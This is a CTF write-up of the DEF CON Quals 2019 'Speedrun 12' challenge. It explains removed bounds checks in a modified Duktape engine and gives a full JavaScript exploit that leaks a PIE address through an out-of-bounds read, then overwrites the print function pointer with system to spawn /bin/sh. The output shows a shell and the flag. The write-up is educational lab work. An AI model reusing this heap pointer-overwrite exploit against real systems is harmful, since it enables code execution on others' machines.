 +++
title = "DEF CON Quals 2019 - Speedrun 12"
date = "2019-05-14 00:53:00"
categories = ["pwn", "writeup"]
+++
## desc
[https://gist.github.com/adamdoupe/9fb1fed69421e789a0a623af912e456a](https://gist.github.com/adamdoupe/9fb1fed69421e789a0a623af912e456a)

> Downloads :
> [speedrun-012](/ctf/assets/defcon/speedrun-012/speedrun-012)
> [solve.js](/ctf/assets/defcon/speedrun-012/solve.js)
> [solve.py](/ctf/assets/defcon/speedrun-012/solve.py)

## intro
This article is written by a first timer to experience "exploiting" ~~real~~ JS engine. :p

> Duktape is an embeddable Javascript engine, with a focus on portability and compact footprint.

In short we have a mini JS engine pwn. The `main` function is realtively easy to read,
```C
  setvbuf(stdout, NULL, _IONBF, 0);
  ctx = duk_create_heap(NULL, NULL, NULL, NULL, fatal_error);
  duk_push_c_function(ctx, native_print, -1);
  duk_put_global_string(ctx, "print");
  if ( !getenv("DEBUG") )
    alarm(5);
  if ( getenv("USE_SYSTEM") )
  {
    duk_push_c_function(ctx, native_system, -1);
    duk_put_global_string(ctx, "system");
  }
  memset(input, 0, 0x400);
  read(0, input, 0x3FF);
  duk_eval_raw(ctx, input, 0, 0xE08);
  duk_pop(ctx);
  duk_destroy_heap(ctx);
```
First, the program create the `ctx` for duktape, then register `print` function to ctx "stack". `print` it self doesn't have anything fancy, only calling `puts` to the concatenated argument passed to it. We also have `native_system` might be useful for later stage, so take note of it. Near the end, the program tries to read JS from user the eval it.

## finding bugs
From the gists, we could see the author did some change to the builtins, the most interesting ones are these,

from line 765-776
```diff
@@ -2347,10 +2344,7 @@
 	switch (magic_ftype) {
 	case DUK__FLD_8BIT: {
 		duk_uint8_t tmp;
-		if (offset + 1U > check_length) {
-			goto fail_bounds;
-		}
-		tmp = buf[offset];
+		tmp = buf[offset_signed];
 		if (magic_signed) {
 			duk_push_int(thr, (duk_int_t) ((duk_int8_t) tmp));
} else {
```
from line 866-883
```diff
@@ -2653,16 +2670,13 @@
 	}
 	case DUK__FLD_32BIT: {
 		duk_uint32_t tmp;
-		if (offset + 4U > check_length) {
-			goto fail_bounds;
-		}
 		tmp = (duk_uint32_t) duk_to_uint32(thr, 0);
 		if (endswap) {
 			tmp = DUK_BSWAP32(tmp);
 		}
 		du.ui[0] = tmp;
 		/* sign doesn't matter when writing */
-		duk_memcpy((void *) (buf + offset), (const void *) du.uc, 4);
+		duk_memcpy((void *) (buf + offset_signed), (const void *) du.uc, 4);
 		break;
 	}
case DUK__FLD_FLOAT: {
```
The first one is from `duk_bi_buffer.c` -> `duk_bi_buffer_readfield()`, or in JS `Buffer.read[bitsize]()`. This is on `DUK__FLD_8BIT`, so we could also assume this is in `readUInt8()`. The removed lines are checking against `offset + BLAH`, this could be a bound check for read. Well, you wouldn't want the buffer read past the size or certain check_length. Testing it to confirm our assumption,
```
$ cat test.js
var a = new OOOBufferOOO(64);
print(a.readUInt8(66));
$ ./speedrun-012 < test.js
5
```
Well, that's clearly an OOB read, usually you would get an `undefined` as result when trying to read past the size.

The second one is from `duk_bi_buffer.c` -> `duk_bi_buffer_writefield()`. Well, you could guess from the first one, this is an OOB write in `writeUInt32LE/BE()`. To check it again,
```
$ cat test.js
var a = new OOOBufferOOO(64);
print(a.readUInt8(66));
a.writeUInt32LE(99, 66);
print(a.readUInt8(66));
$ ./speedrun-012 < test.js
5
99
```

## finding attack vector
Now, we already have R/W primitive, but how to get the shell? The binary has complete protection (NX bit, FULL RELRO, etc.), but... do you still remember that we have `native_system` in the binary, and the fact that `print` register `native_print` into the ctx stack? Well, see where this will be going? Try to hack this yourself!

> damn. Just give me the PoC now. sheesh.

> ok :|

## attaccc
Well, the idea is to overwrite the function pointer of `native_print` that get push-ed into ctx stack, which actually lies in heap section. The first step is to find offset difference between `OOOBufferOOO` and `native_print`. A simple nice trick to know where out buffer will lands on memory is to create a unique id. For example,
```js
var a = new OOOBufferOOO(64);
a[0] = 0xEF;
a[1] = 0xBE;
a[2] = 0xAD;
a[3] = 0xDE;
```
I've set a to has 0xdeadbeef, then use search in pwndbg,
```
pwndbg> search -t dword 0xdeadbeef
[heap]          0x5555557cbe80 0xdeadbeef
pwndbg> search -t qword $rebase(native_print)
[heap]          0x5555557d5af8 0x55555555e270
```
To get the offset difference, you'll just need substract it, ofc :p. `0x5555557cbe80-0x5555557d5af8` -> `0x9c78`. Since duktape can't handle 64bit values, we could only just use 32 bit vars, but it's enough for this case. Try leaking the lower 4 byte of PIE offset,
```js
pie = a.readUInt8(0x9c7b);
pie = pie << 8;
pie|= a.readUInt8(0x9c7a);
pie = pie << 8;
pie|= a.readUInt8(0x9c79);
pie = pie << 8;
pie|= a.readUInt8(0x9c78);
print(pie.toString(16));

pie -= native_print;
print(pie.toString(16)); // PIE
```
After that we just need to overwrite the function pointer to `native_system`,
```js
a.writeUInt32LE(pie + native_system, 0x9c78)
```
Now, calling `print()` will be the same as `system()`,
```js
print('/bin/sh') // system('/bin/sh')
```

## full solver and FLAGG
```js
// note
// a.readUInt8(pos);
// a.writeUInt32LE(val, pos);

// kindofzfillbutsuperlame
// function pad(b) {
// 	while (b.length < 2) b = '0' + b;
// 	return b;
// }

// mini "hexdump"
// for (var i = -0x5F18; i < -0x5F00; i += 16) {
// 	r = ''
// 	for (var j = i; j < i + 16; ++j)
// 		r += pad(a.readUInt8(j).toString(16)) + ' ';
// 	print(r);
// }

var a = new OOOBufferOOO(64);
native_system = 0xA220;
native_print = 0xA270;

a[0] = 0xEF;
a[1] = 0xBE;
a[2] = 0xAD;
a[3] = 0xDE;

pie = a.readUInt8(0x9c7b);
pie = pie << 8;
pie|= a.readUInt8(0x9c7a);
pie = pie << 8;
pie|= a.readUInt8(0x9c79);
pie = pie << 8;
pie|= a.readUInt8(0x9c78);
print(pie.toString(16));

pie -= native_print;
print(pie.toString(16));

a.writeUInt32LE(pie + native_system, 0x9c78)
print('/bin/sh')
```

```
λ › python2 solve.py
[+] Opening connection to speedrun-012.quals2019.oooverflow.io on port 31337: Done
[*] Switching to interactive mode
20eb0270
20ea6000
$ id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
$ cat flag
OOO{Rule #3: Never `open` the package. Who knows what pwns are lying about?
```